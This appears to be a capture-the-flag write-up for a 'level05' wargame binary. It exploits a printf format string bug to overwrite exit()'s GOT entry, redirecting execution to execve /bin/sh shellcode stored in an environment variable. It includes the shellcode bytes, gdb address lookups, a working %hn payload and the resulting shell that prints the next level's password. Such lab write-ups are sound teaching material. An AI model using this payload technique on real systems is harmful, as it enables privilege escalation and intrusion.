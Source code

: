 ### Download binary
``scp -P4242 level05@192.168.31.33:/home/users/level05/level05 ~/Bureau/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (refer to source code)

The printf function is used improperly, which enables a format string attack :
``printf(inputBuffer);``

PS : If characters of inputBuffer are an uppercase letter, it attempts to convert it to lowercase.

We gonna use this vulnerability to **overwrite the GOT and replace exit() adress by a shellcode adress**.

----

### The ShellCode

**Our shellcode**
``https: //shell-storm.org/shellcode/files/shellcode-811.html``

First we export our shellcode in an environment variable
``export SHELLCODE=$(python -c 'print "\x90" * 1000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')``

----

### Gathering infos to build the payload

**Find the adress of the shellcode in memory**  
``gdb ./level05``  
``(gdb) b main``   
[...]     
``(gdb) r``    
[...]    
``(gdb) x/200xs environ``    
[...]    
>0xffffd4d6:	 "SHELLCODE=\220\220\220\220\220\[...]    
>0xffffd59e:	 "\220\220\220\220\220\220\220\[...]    

We're keeping this 0xffffd59e, to be somewhere inside the NOP slide.

Converted to a number : 4294956446.

**Find exit adress in the GOT :**
``gdb ./level05``
``(gdb) disas exit``
>Dump of assembler code for function exit@plt:
>   0x08048370 <+0>:	jmp    *0x80497e0

The adress is **0x80497e0**.

**Find the printf memory's spot**
``(python -c 'print "AAAA" + ".%x" * 11') | ./level05``
>aaaa.64.f7fcfac0.0.0.0.0.ffffffff.ffffd744.f7fdb000.**61616161**.2e78252e.252e7825

Located in the 10th spot.

----

### Payload
Because 4294956446 characters are too much to print in a reasonnable time, we need to split our target address into two parts: the two most significant bytes (strong bytes) and the two least significant bytes (weak bytes), we gonna use **%hn** printf format to write in a specific 2 bytes memory spot.

**Splitting the adress and convert to number**
ffff = 65535
d59e = 54686

**Payload explanation**
- adress of the 2 strong bytes of exit()
- adress of the 2 weak bytes of exit()
- d59e in decimal - bytes allready written (8)
- 10th spot in memory
- ffff in decimal - bytes allready written (54686)
- 11th spot in memory
--> **080497e0 + 080497e2 + 54678 + %10hn + 10849 + %11hn**

**Our Payload**
``python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%54678d' + '%10\$hn' + '%10849d' + '%11\$hn'"``

----

### Bypassing security

``(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%54678d' + '%10\$hn' + '%10849d' + '%11\$hn'"; cat) | ./level05``

``whoami``
>level06

``cat /home/users/level06/.pass``
>h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
